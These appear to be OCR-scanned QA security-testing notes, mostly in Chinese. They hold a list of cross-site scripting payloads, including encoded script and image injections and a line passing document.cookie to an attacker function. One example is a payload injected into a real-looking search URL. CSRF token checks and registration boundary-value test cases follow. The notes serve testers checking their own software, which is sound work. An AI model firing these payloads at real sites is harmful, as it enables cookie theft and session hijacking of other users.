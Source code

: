 ★http://xxx';alert('xss');var/ a='a

★’”>xss&<

★"onmouseover=alert('hello');"

★&{alert('hello');}

  ★>"'><script>alert(‘XSS')</script>

  ★>%22%27><img%20src%3d%22javascript:alert(%27XSS%27)%22>

★>"'><img%20src%3D%26%23x6a;%26%23x61;%26%23x76;%26%23x61;%26%23x73;%26%23x63;%26%23x72;%26%23x69;%26%23x70;%26%23x74;%26%23x3a;alert(%26quot;XSS%26quot;)>

  ★AK%22%20style%3D%22background:url(javascript:alert(%27XSS%27))%22%20OS%22

  ★%22%2Balert(%27XSS%27)%2B%22

  ★<table background="javascript:alert(([code])"></table>

  ★<object type=text/html data="javascript:alert(([code]);"></object>

  ★<body onload="javascript:alert(([code])"></body>

  ★a?<script>alert(’Vulnerable’)</script>

★<!--'">&:

var from = ‘$!rundata.Parameters.getString(’from’)';

　　var from = ”;hackerFunction(document.cookie);”;

 

 

http://searchbox.mapbar.com/publish/template/template1010/?CID=qingke&tid=tid1010&cityName=天津<script>alert("hello")</script>&nid=MAPBXITBJRQMYWJRXPCBX

 

1. **5.**   **跨站请求伪造（****CSRF****）**

同个浏览器打开两个页面，一个页面权限失效后，另一个页面是否可操作成功。

当页面没有CHECKCODE时，查看页面源代码，查是是否有token。如果页面完全是展示页面，是不会有token的。

 

 

 

 

**一、**      **用户注册**

只从用户名和密码角度写了几个要考虑的测试点，如果需求中明确规定了安全问题，Email，出生日期，地址，性别等等一系列的格式和字符要求，那就都要写用例测了~

以等价类划分和边界值法来分析

1.填写符合要求的数据注册： 用户名字和密码都为最大长度（边界值分析，取上点）

2.填写符合要求的数据注册 ：用户名字和密码都为最小长度（边界值分析，取上点）

3.填写符合要求的数据注册：用户名字和密码都是非最大和最小长度的数据（边界值分析，取内点）

4.必填项分别为空注册
